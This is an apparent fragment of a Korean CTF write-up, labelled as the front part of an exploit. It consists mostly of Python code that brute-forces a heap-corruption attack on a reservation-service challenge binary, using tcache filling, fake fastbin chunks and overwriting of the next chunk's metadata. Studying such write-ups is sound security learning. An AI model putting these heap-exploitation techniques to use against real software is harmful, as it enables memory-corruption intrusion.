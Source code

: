 이 부분이 exploit의 앞부분이다.

```python
for _ in trange(256):
    try:
        p = connect()
        review_cnt = 0
        p.sendlineafter(b">>> ", b"name")

        for i in range(1, 8):
            create_reserv(i, b"_", b"_")
            cancel_reserv(i)

        # stash these
        create_reserv(1, b"a", b"a")
        create_reserv(2, b"a", b"a")
        create_reserv(3, b"a", b"a")
        create_reserv(4, b"a", b"a")

        # unsortedbin
        # The b"\x00" * 0x10, p64(0x21) part give you additional leaks
        # by creating fake fast bins
        create_reserv(5, b"a", b"a")
        create_reserv(6, b"\x00" * 0x8 + p64(0x21), p64(0))
        create_reserv(7, b"a", b"a")
        create_reserv(8, b"a", b"a")
        create_reserv(9, b"a", b"a")
        create_reserv(10, b"a", b"a")
        cancel_reserv(7)
        cancel_reserv(8)
        cancel_reserv(10)
        cancel_reserv(9)

        """
        a*0x10 *3
        00000000 00000021
        xxxxxxxx xxxxxxxx
        xxxxxxxx aaaaaaaa
        """
        fake_block = b"x" * 0x30 + b"\x00" * 8 + p64(0x21) + b"x" * 0x20
        review_reserv(fake_block)
        create_reserv(10, b"a", b"a")
        cancel_reserv(7)

        cancel_reserv(6)
        cancel_reserv(5)
        overwrite_nextheap(4, p64(0x21), b"")

        create_reserv(7, b"b", b"b")
        create_reserv(8, b"C" * 0x10, b"C" * 8)
```
{: .file="exploit_front" }
